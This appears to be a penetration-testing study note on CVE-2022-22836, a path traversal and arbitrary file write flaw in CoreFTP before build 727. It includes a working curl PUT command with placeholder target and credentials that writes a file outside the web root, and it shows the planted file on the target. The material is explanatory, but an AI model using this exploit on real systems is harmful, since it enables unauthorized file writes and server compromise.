 *  `CoreFTP before build 727` vulnerability assigned [CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836)
*  FTP service that does not correctly process the `HTTP PUT` request and leads to an `authenticated directory`/`path traversal,` and `arbitrary file write` vulnerability

## The Concept of the Attack
* This FTP service uses an HTTP `POST` request to upload files
* CoreFTP service allows an HTTP `PUT` request, which we can use to write content to files

```sh
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

* Create a HTTP `PUT` request (`-X PUT`)
* With basic auth (`--basic -u <username>:<password>`)
* The path for the file (`--path-as-is https://<IP>/../../../../../whoops`)
* And its content (`--data-binary "PoC."`)
* Also a host header (`-H "Host: <IP>"`) with the IP address of our target system
* The filename specified (`whoops`) with the desired content (`"PoC."`) now serves as the destination on the local system

#### Target System
```powershell
C:\> type C:\whoops

PoC.
```